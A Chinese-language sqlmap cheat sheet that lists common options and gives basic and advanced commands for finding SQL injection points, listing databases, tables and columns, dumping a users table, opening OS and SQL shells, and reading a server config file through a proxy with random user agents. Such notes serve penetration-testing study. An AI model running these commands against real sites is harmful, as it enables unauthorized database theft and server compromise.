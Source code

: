 ### 常用参数

```sql
--version                         #显示程序的版本号并退出
-h, --help                        #显示此帮助消息并退出
-u                                #设置目标URL
-p                                #指定测试参数
-D                                #指定要进行枚举的数据库名
-U                                #指定要进行枚举的数据库表
-T                                #枚举列的信息
-C                                #指定要进行枚举的数据库列
-U                                #指定要进行枚举的数据车用户
--current-user                    #获取当前用户名称
--current-db                      #获取当前数据库名称
--cookie                          #设置cookie值
--dbs                             #列出数据库
--tables                          #列出数据库中的表
--columns                         #列出表中的列
--dump                            #列出表中的字段
--sql-shell                       #执行SQL命令
--os-cmd                          #执行系统命令
--os-shell                        #与系统交互shell
-r                                #加载外部请求包
--batch                           #使用默认参数进行
--data=DATA                       #通过POST发送数据字符串
--level=LEVEL                     #执行测试的等级（1-5，默认为1)
--risk=RISK                       #执行测试的风险（O-3，默认为1)
-v VERBOSE                        #详细级别:0-6(默认为1)
--proxy=PROXY                     #使用HTTP代理连接到目标URL
--user-agent                      #指定HTTP User-Agent
--tamper=TAMPER                   #使用给定的脚本(S)篡改注入数据 
--random-agent                    #随机的请求头!
```

### 基础使用

```sql
1、判断注入点和数据类型：
      (1) sqlmap -u http://www.test.php?id=1                 #GET方法注入
      (2) sqlmap -r /etc/url.txt                             #POST方法注入(使用Burpsuite等代理工具拦截POST请求内容，将POST请求内容保存在一个文本文件中，此处为url.txt，并用sqlmap调用)
2、判断数据库名(dbs)：sqlmap -u "http://www.test.php?id=1" --dbs
3、判断表名(tables)：sqlmap -u "http://www.test.php?id=1" -D 数据库名 --tables
4、判断列名(columns)：sqlmap -u "http://www.test.php?id=1"-D 数据库名 -T 表名 --column
5、获取字段: sqlmap -u "http://www.test.php?id=1" -D 数据库名 -T 表名 -C 列名 --dump
```

### 进阶使用

```sql
# -m对文件中的url
python sqlmap.py -m .\url.txt --dbs --batch --risk 2 --level 3 --random-agent -p "id" --proxy=http://127.0.0.1:7890 --output-dir result
python sqlmap.py -m .\url.txt --dbs --batch --force-ssl --risk 2 --level 3 --random-agent -p "id" --proxy=http://127.0.0.1:7890 --output-dir result


# -r对get/post文件
python sqlmap.py -r "c:\sql.txt" -p "id" –dbms mysql –file-read="/var/www/html/config.php"
sqlmap -r sql.txt --batch --random-agent --level=5 --risk=3 --batch -D ch16 -T users --dump

 
# -u对单一指定url跑get/post
python sqlmap.py -u "https://www.vuln.cn/post.php?id=1" --force-ssl  --proxy "http://127.0.0.1:7890" --batch --dbs -v 3
```